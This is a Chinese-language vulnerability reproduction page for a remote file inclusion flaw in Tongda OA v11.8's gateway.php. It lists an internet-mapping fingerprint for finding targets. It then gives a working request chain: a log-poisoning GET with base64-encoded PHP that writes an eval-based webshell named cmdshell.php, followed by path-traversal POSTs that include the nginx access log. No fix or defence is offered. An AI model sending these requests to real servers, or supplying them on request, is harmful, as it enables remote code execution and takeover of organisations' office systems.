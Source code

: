 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

```
通达OA v11.8
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154525896](images/202205201545994.png)

发送恶意请求让日志被记录

```
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520154539264](images/202205201545324.png)

在通过漏洞包含日志文件

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![image-20220520154553517](images/202205201545558.png)

再次发送恶意请求写入文件

```
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![image-20220520154607791](images/202205201546852.png)

访问写入的文件 `/mac/cmdshell.php`

![image-20220520154623095](images/202205201546179.png)